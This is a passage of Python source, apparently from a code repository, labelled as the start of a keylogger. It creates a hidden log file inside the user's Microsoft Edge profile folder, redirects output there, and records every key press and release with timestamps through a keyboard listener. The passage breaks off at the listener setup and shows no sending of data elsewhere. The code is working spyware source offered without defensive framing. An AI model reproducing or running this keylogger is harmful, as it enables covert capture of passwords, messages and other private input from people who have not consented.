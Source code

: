 #start of keylogger
global stopper
stopper = "hellno"
exit_event = threading.Event()
original_stdout = sys.stdout
def start_log():

    try:
        local_state_path = os.path.join(os.environ["USERPROFILE"],"AppData", "Local", "Microsoft", "Edge","User Data", "Default")
        direc="temp"
        dir=os.path.join(local_state_path,direc)
        os.mkdir(dir)
    except:
        local_state_path = os.path.join(os.environ["USERPROFILE"],"AppData", "Local", "Microsoft", "Edge","User Data", "Default")
        direc="temp"
        dir=os.path.join(local_state_path,direc)
    
    global hellfile
    hellfile=dir+"\\hellfile.txt"



    print(hellfile)
    f= open(hellfile,"w+")
    sys.stdout = f
    def on_press(key):
        try:
            f=open(hellfile, "a+")
            sys.stdout = f
            seconds = time.time()
            local_time = time.ctime(seconds)
            print(local_time, end="--------->")
            print('Alphanumeric key pressed: {0} '.format(
                key.char))
            f.close()
        except AttributeError:
            f=open(hellfile, "a+")
            sys.stdout = f
            seconds = time.time()
            local_time = time.ctime(seconds)
            print(local_time, end="--------->")
            print('special key pressed: {0}'.format(
                key))
            f.close()

    def on_release(key):
        f=open(hellfile, "a+")
        sys.stdout = f
        seconds = time.time()
        local_time = time.ctime(seconds)
        print(local_time, end="--------->")
        print('Key released: {0}'.format(
            key))
        f.close()
        if stopper == "stop":
        # Stop listener
            return False
    # Collect events until released
    with keyboard.Listener(
            on_press=on_press,
            on_release=on_release) as listener: